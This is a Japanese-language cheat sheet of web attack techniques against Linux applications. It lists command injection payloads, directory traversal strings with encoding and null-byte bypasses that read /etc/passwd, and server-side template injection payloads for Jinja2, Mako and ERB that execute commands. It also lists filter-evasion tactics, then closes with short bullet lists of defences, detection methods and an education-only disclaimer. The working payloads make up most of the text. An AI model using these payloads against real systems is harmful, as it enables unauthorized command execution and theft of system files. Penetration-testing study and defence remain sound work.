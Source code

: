 # Linux Web Application Attack Techniques

**対応OS**: Linux

## 概要
Linux環境でのWebアプリケーションに対する攻撃手法について解説します。

## 基本的な手法

### コマンドインジェクション
```bash
# 基本的なコマンドインジェクション
; ls -la

# バックティックを使用したインジェクション
`cat /etc/passwd`

# URLエンコードされたインジェクション
%3B%20cat%20%2Fetc%2Fpasswd

# 改行を使用したインジェクション
%0Acat%20/etc/passwd
```

### ディレクトリトラバーサル
```python
# 基本的なパストラバーサル
../../../etc/passwd

# エンコードされたパストラバーサル
..%2F..%2F..%2Fetc%2Fpasswd

# Nullバイトを使用したバイパス
../../../etc/passwd%00.jpg

# 二重エンコーディング
..%252F..%252F..%252Fetc%252Fpasswd
```

### サーバーサイドテンプレートインジェクション
```python
# Jinja2テンプレートインジェクション
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}

# Mako テンプレートインジェクション
<%
import os
x=os.popen('id').read()
%>
${x}

# ERBテンプレートインジェクション
<%= system('id') %>
```

## 検知回避テクニック
- 特殊文字のエンコーディング
- コマンドの難読化
- 代替構文の使用
- フィルタバイパス

## 防御策
- 入力のサニタイズ
- ディレクトリ制限
- テンプレートのエスケープ
- アクセス制御

## 検知方法
- ログ分析
- ファイルアクセス監視
- プロセス監視
- ネットワークトラフィック分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 